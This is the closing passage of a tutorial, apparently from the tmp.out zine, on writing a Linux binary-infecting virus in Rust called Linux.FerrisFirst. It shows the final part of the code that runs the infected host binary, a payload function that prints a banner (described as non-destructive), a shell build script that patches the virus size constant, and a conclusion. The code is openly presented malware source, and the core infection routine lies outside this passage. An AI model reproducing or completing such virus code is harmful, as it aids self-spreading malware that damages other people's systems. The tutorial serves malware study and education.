 ```rust
    if let Err(_) = fs::set_permissions(&path, perms) { return; }

    let _ = Command::new(&path).args(args).status(); // Discard Result
    if let Err(_) = fs::remove_file(&path) { return; }
}
```

## The virus payload

The virus should work now, but it won't actually leave any traces to show that it ran. We can add code to `virus_main` to do just that. Remember in `main` we set `virus_main` to execute before `execute_host`! Here is a non-destructive payload that prints a cool header to stdout when an infected binary is ran.

```rust
/// Code that is executed when an infected file is ran
fn virus_main() {
    println!("\x1b[92m{}\x1b[0m", ".: tmp.out :.");
}
```

### Patching the `VIRUS_SIZE` constant

As mentioned previously, setting a valid `VIRUS_SIZE` is tricky in Rust. I opted to write a small shell script `build.sh` that performs the following:

1. Build the virus once and get the output file size
2. Patch the virus source code with the correct size
3. Rebuild the virus

```sh
#!/bin/sh

# The line in source code to match
DECL='const VIRUS_SIZE: usize = '

# Compiler options: no fancy panic, link time optimization, max optimization, no debug_info, strip
OPTS='+nightly -C panic=abort -C lto=y -C opt-level=z -C debuginfo=0 -Z strip=symbols'

# Compile virus once, compress with upx, and get final size
rustc $OPTS ferris-first.rs -o Linux.FerrisFirst || exit
SIZE=`wc Linux.FerrisFirst | awk '{print $3}'`

# Patch `VIRUS_SIZE` in the source code and recompile
sed -i -s "s/${DECL}.*;/${DECL}${SIZE};/g" ferris-first.rs
rustc $OPTS ferris-first.rs -o Linux.FerrisFirst
```

Building the virus twice is a little bit expensive but it's only required once and I think it's perfectly okay for a demo.

## Conclusion

I hope this document was helpful. I myself learned a lot while writing this. Huge thanks to TMZ, sblip, and others at tmp.out for teaching and motivating me to follow through with this project <3